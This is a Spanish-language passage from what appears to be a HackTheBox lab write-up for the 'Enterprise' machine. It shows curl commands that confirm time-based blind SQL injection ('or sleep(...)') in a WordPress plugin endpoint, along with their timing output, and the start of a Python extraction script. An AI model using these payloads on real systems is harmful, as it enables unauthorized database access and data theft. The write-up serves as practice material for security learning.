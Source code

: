 * Como el nombre del post da error, ejecuta el **sleep**.

Si ejecutamos en `bash`, tenemos:

```bash
# URL encodeada
❭ time curl -s "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1%20or%20sleep(2);#"
<br />
<b>Catchable fatal error</b>:  Object of class mysqli_result could not be converted to string in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b><br />

real    1m25,973s
...
```

Se demora 1 minuto con 25 segundos (que es un montón, pero es porque por cada fila de la tabla hace el **sleep**), incluso al indicarle que simplemente se demorara **2** segundos más... Por lo tanto podemos jugar con el mismo **SLEEP** para indicarle milisegundos, a ver cuanto se demora en realidad:

```bash
❭ time curl -s "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=2%20or%20sleep(0.1);#"
<br />
<b>Catchable fatal error</b>:  Object of class mysqli_result could not be converted to string in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b><br />

real    0m4,658s
...
```

Validamos de nuevo y asi nos aseguramos:

```bash
❭ time curl -s "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=2%20or%20sleep(0.1);#"
<br />
<b>Catchable fatal error</b>:  Object of class mysqli_result could not be converted to string in <b>/var/www/html/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b><br />

real    0m4,657s
...
```

Bien, entonces con esto validamos una explotación SQL basada en tiempo y tenemos una base para probar después, **4 segundos con SLEEP(0.1)**. Creemos un script para jugar con las tablas y extraer info interesante:

### Explotacion SQL injection manual [#](#explotacion-sqli) {#explotacion-sqli}

> Lindo recurso - [MySQL SQL Injection Cheat Sheet](pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet).

```py
#!/usr/bin/python3

import requests
import string
import signal
import time
from pwn import *

# Ctrl + C
def def_handler(sig, frame):
    print("\nInterrupción, saliendo...\n")
    exit(1)

```